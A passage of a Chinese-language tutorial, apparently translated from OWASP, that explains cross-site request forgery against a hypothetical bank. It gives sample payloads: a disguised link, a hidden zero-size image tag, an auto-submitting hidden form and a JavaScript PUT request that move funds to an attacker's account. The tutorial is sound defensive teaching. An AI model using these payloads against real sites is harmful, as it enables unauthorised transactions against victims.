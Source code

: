 - 本次攻击的社会工程方面欺骗Alice在登陆银行应用后访问这个URL。这通常通过以下技术之一来完成：
  - 发送包含HTML内容的未经请求的电子邮件
  - 在受害者使用在线银行的同时可能访问的网页上植入漏洞URL或者脚本

- 被利用的URL可以伪装成普通链接，促使受害者点击它
  `<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>`

或者作为一个0x0假图片
`<img src="http://bank.com/transfer.do?acct=MARIA&amount=100000" width="0" height="0" border="0">`

如果这个图片标签被包括在邮件内，Alice不会看见任何东西。但是，浏览器仍然会将请求提交给bank.com，而且没有任何可视的已经发生转移的指示。

- 一个使用GET的应用程序进行CSRF攻击的实际例子是从2008年开始的，一个被用来大规模下载恶意软件的[uTorrent漏洞](https://www.ghacks.net/2008/01/17/dos-vulnerability-in-utorrent-and-bittorrent/ "uTorrent漏洞")。

## POST场景
GET和POST攻击的唯一区别在于受害者执行的方式。让我们假设银行显示使用POST并且包含漏洞的requests请求看起来是这样：
```http
POST http://bank.com/transfer.do HTTP/1.1
acct=BOB&amount=100
```

这样的请求无法使用标准A或IMG标签传送，但可以使用FORM标签传送

```http
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
<input type="hidden" name="acct" value="MARIA"/>
<input type="hidden" name="amount" value="100000"/>
<input type="submit" value="View my pictures"/>
</form>
```

这个表单仍然需要用户点击提交按钮，但这依然可以由JavaScript自动完成
This form will require the user to click on the submit button, but this can be also executed automatically using JavaScript:

```javascript
<body onload="document.forms[0].submit()">
<form...
```

## 其他HTTP方法
现代Web应用程序API经常使用其他HTTP方法，例如PUT或DELETE。 假设有漏洞的银行应用使用以JSON块为参数的PUT：

```http
PUT http://bank.com/transfer.do HTTP/1.1
{ "acct":"BOB", "amount":100 }
```

这些请求可以利用嵌入到漏洞页面的JavaScript执行：

```javascript
<script>
function put() {
	var x = new XMLHttpRequest();
	x.open("PUT","http://bank.com/transfer.do",true);
	x.setRequestHeader("Content-Type", "application/json"); 
	x.send(JSON.stringify({"acct":"BOB", "amount":100})); 
}
</script>
<body onload="put()">
```
幸运的是，由于同源策略限制，此请求不会被现代Web浏览器执行。 此限制是默认启用的，除非目标网站通过使用带有以下标头的[CORS](https://www.owasp.org/index.php/HTML5_Security_Cheat_Sheet#Cross_Origin_Resource_Sharing "CORS")明确地打开攻击者（或所有人）来源的跨域请求：
`Access-Control-Allow-Origin: *`
